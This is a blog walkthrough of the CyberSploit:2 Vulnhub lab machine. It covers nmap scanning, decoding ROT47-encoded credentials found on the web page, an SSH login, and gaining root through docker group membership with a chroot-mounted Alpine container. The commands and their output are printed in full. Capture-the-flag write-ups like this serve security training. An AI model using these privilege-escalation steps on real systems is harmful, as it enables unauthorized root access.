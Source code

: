 ```yaml
---
date: 2020-07-30 10:18:54
layout: post
title: "Cybersploit 2 Vulnhub Walkthrough"
subtitle:
description: CyberSploit:2 is a boot2root VM from Vulnhub. This is the second part of the Vulnhub's CyberSploit Series.
image: /assets/img/uploads/cybersploit-2/mech.webp
optimized_image: /assets/img/uploads/cybersploit-2/mech-optimized.webp
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: cybersploit 2, cybersploit 2 vulnhub, cybersploit 2 walkthrough, cybersploit 2 vulnhub walkthrough, cybersploit 2 writeup, vulnhub cybersploit walkthrough, cybersploit writeup, infosec articles
---
```


Today I will be sharing a walkthrough of CyberSploit:2, a boot2root VM available on Vulnhub. This is the second part of the Vulnhub's CyberSploit Series and rated easy. I have added the IP address of the machine to the hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
192.168.1.8     cybersploit2.local
```

## Initial Enumeration and Shell

I started the enumeration by starting a port scan with Nmap, checking for open ports and default scripts.

```r
root@kali:~# nmap -sC -sV -oA nmap/initial cybersploit2.local 

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for cybersploit2.local (192.168.1.8)
Host is up (0.00036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
MAC Address: 08:00:27:00:77:54 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```

We have an ssh port open and an Apache 2.4.37 Web Server running on port 80. Looking at the port 80 on our web browser, we see some usernames and passwords along with their handles.

<img src="/assets/img/uploads/cybersploit-2/port80.png">

There is an entry on the 4th number which looks different from others. This is encrypted using some algorithm. Looking at the source code of the page, I found that it is encoded with ROT47.

<img src="/assets/img/uploads/cybersploit-2/source.png">

Next I went to CyberChef to decode the text and found a username <b>shailendra</b> and password <b>cybersploit1.</b>

<img src="/assets/img/uploads/cybersploit-2/cyberchef.png">

I used these credentials to login as user <b>shailendra</b> via ssh.

```r
root@kali:~# ssh shailendra@cybersploit2.local

The authenticity of host 'cybersploit2.local (192.168.1.8)' cant be established.
ECDSA key fingerprint is SHA256:uGYzWYklxeL1iDjLGh5cLrkGjTgqAJfxn3mkDaZ7C7M.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cybersploit2.local,192.168.1.8' (ECDSA) to the list of known hosts.
shailendra@cybersploit2.locals password: 
Last login: Wed Jul 15 12:32:09 2020
[shailendra@localhost ~]$
```
## Root Flag

Inside the home directory of user shailendra, we have a file named <b>hint.txt.</b> This will have the hints for privilege escalation.

```r
[shailendra@localhost ~]$ ls
hint.txt

[shailendra@localhost ~]$ cat hint.txt
docker
```
We have docker as a hint. I saw the <b>id</b> of the user and found that we have <b>docker</b> installed and this user is added to the <b>docker group.</b>

```r
[shailendra@localhost ~]$ id

uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Looking at the <a href="https://gtfobins.github.io/gtfobins/docker/">GTFO Bins,</a> I found that we can exploit docker and mount the root directory on a docker container using the following command:

```r
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
df20fa9351a1: Pull complete 
Digest: sha256:185518070891758909c9f839cf4ca393ee977ac378609f700f60a771a2dfe321
Status: Downloaded newer image for alpine:latest
sh-4.4#
```

The exploit was successful and we are root! Now we can read our flag.

```r
sh-4.4# cat /root/flag.txt 
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/mattandersondesign">Matt Anderson.</a>
